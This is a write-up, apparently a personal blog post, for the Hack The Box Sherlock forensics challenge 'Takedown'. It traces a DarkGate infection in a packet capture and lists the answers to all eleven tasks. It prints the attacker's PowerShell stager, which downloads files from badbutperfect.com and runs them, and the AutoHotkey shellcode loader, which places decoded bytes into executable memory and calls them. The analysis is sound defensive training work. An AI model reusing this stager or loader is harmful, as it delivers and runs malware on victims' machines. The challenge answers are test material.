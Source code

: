 ```yaml
---
title: HTBS Takedown

---
```


# Hack The Box Sherlock: Takedown

## Description
> We've identified an unusual pattern in our network activity, indicating a possible security breach. Our team suspects an unauthorized intrusion into our systems, potentially compromising sensitive data. Your task is to investigate this incident.
## Initial findings
**Protocol hierarchy:**
![image](https://hackmd.io/_uploads/SJcnhcraJg.png)
Key points:
* 100% UDP packets are DNS packets, resolve to 2 domains:
```bash
$ tshark -r Takedown.pcap -Y "dns" -T fields -e dns.qry.name | sort -u
badbutperfect.com
escuelademarina.com
```
* Overview of NetBIOS Session Service packets:
![bilde](https://hackmd.io/_uploads/HkhLMhDp1g.png)
![bilde](https://hackmd.io/_uploads/ryAI9nDpJg.png)
-> Initial connection to escuelademarina.com
* HTTP GET requests:
![bilde](https://hackmd.io/_uploads/ByRTXnPpyl.png)

**Conversations**:
![image](https://hackmd.io/_uploads/rJdA2qS6Jx.png)
-> Victim IP: 10.3.19.101
* 10.3.19.101 - 10.3.19.1:
![bilde](https://hackmd.io/_uploads/rJJ4LnDTJx.png)
-> 10.3.19.1  is a DNS resolver:
escuelademarina.com resolved to 165.22.16.55
badbutperfect.com resolved to 103.124.105.78

**Exportable objects**
![bilde](https://hackmd.io/_uploads/ByiUzpva1g.png)

## Scenario overview
The victim machine (10.3.19.101) accessed 165.22.16.55, which resolves to escuelademarina.com — a domain controlled by the threat actor:
![bilde](https://hackmd.io/_uploads/B1c102Ppyl.png)
The exact method by which the attacker compromised the victim to access their domain remains unknown.
Then a connection to attacker's IP is established:
![bilde](https://hackmd.io/_uploads/HyT4kpw6ye.png)
Following that is the establishment of SMB connectionm. The attacker attempted to authenticate (packet 13) from victim's machine to access the shared resource on `\\escuelademarina.com\cloud` :
![bilde](https://hackmd.io/_uploads/H1uXgpDpke.png)
and request the first file: 
![bilde](https://hackmd.io/_uploads/rkj1MTwT1g.png)
From the end part of the stream containing that request, the VBS script's role in this scenario seems to be initiating connection to `badbutperfect.com`, the domain which will be used to download malwares:
![bilde](https://hackmd.io/_uploads/ByT9gfuT1l.png)

## Sherlock tasks
**Task 1: From what domain is the VBS script downloaded?**
-> escuelademarina.com

**Task 2: What was the IP address associated with the domain in question #1 used for this attack?**
-> 165.22.16.55

**Task 3: What is the filename of the VBS script used for initial access?**
-> AZURE_DOC_OPEN.vbs

**Task 4: What was the URL used to get a PowerShell script?**
Here we will inspect the HTTP GET requests to look up a PowerShell script:
![bilde](https://hackmd.io/_uploads/HJrE5Twa1x.png)
-> badbutperfect.com/nrwncpwo
Analysis of the script:
1. Create a folder and move to it:
```powershell 
ni 'C:/rimz' -Type Directory -Force
cd 'C:/rimz'
```
* ni (short for New-Item) creates a new directory at C:/rimz
2. Download 3 files from `badbutperfect.com`:
```powershell
Invoke-WebRequest -Uri "http://badbutperfect.com/test2" -OutFile 'AutoHotkey.exe'
Invoke-WebRequest -Uri "http://badbutperfect.com/jvtobaqj" -OutFile 'script.ahk'
Invoke-WebRequest -Uri "http://badbutperfect.com/ozkpfzju" -OutFile 'test.txt'
```
3. Execute the malware:
```powershell
start 'AutoHotkey.exe' -a 'script.ahk'
```
4. Hide the folder (C:/rimz):
```powershell 
attrib +h 'C:/rimz'
```

**Task 5: What likely legit binary was downloaded to the victim machine?**
From the PowerShell script above and a little searching, "AutoHotKey.exe" seems to be the legit binary.
-> AutoHotKey.exe

**Task 6: From what URL was the malware used with the binary from question #5 downloaded?**
From the PowerShell script: ![bilde](https://hackmd.io/_uploads/r1ONhTvpke.png) -> the malware used with the binary "AutoHotKey.exe" is `script.ahk`, trace back: ![bilde](https://hackmd.io/_uploads/HyxYKhTw6ke.png)
-> http://badbutperfect.com/jvtobaqj

**Task 7: What filename was the malware from question #6 given on disk?**
-> script.ahk

**Task 8: What is the TLSH of the malware?**
For this task, just uploading `http://badbutperfect.com/jvtobaqj` to VirusTotal didn't work. So we need to export the file then submit it to VirusTotal.
![bilde](https://hackmd.io/_uploads/HkZCFAw61x.png)
-> T15E430A36DBC5202AD8E3074270096562FE7DC0215B4B32659C9EF16835CF6FF9B6A1B8

**Task 9: What is the name given to this malware? Use the name used by McAfee, Ikarus, and alejandro.sanchez.**
On VirusTotal -> COMMUNITY: 
![bilde](https://hackmd.io/_uploads/SkNVc0vTyg.png)
-> DarkGate

**Task 10: What is the user-agent string of the infected machine?**
Look up HTTP Response:
![bilde](https://hackmd.io/_uploads/ry3wxgOpkg.png)
-> Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36

**Task 11: To what IP does the RAT from the previous question connect?**
"The RAT (Remote Access Trojan) from the previous question" = http://badbutperfect.com/jvtobaqj 
![bilde](https://hackmd.io/_uploads/SkW4-xua1l.png)
-> 103.124.105.78

## Malware analysis
The content of `script.ahk` is:
```clike
MEM_RESERVE := 0x2000
PAGE_EXECUTE_READWRITE := 0x40
archivo := A_ScriptDir . "\\test.txt"
FileRead, contenidoHex, %archivo%
size := 468705
lpAddress := DllCall("VirtualAlloc", "Ptr", 0, "UInt", size, "UInt", MEM_COMMIT | MEM_RESERVE, "UInt", PAGE_EXECUTE_READWRITE)
Loop, % size {
hexByte := "0x" . SubStr(contenidoHex, 2 * A_Index - 1, 2)
NumPut(hexByte, lpAddress + (A_Index - 1), "Char")
}
DllCall(lpAddress)
```
This malware was designed to decode the hex-encoded content of `http://badbutperfect.com/ozkpfzju (test.txt)`. The decoded content of test.txt is a program to delete drivers.

#
> Written by 9r3y
##






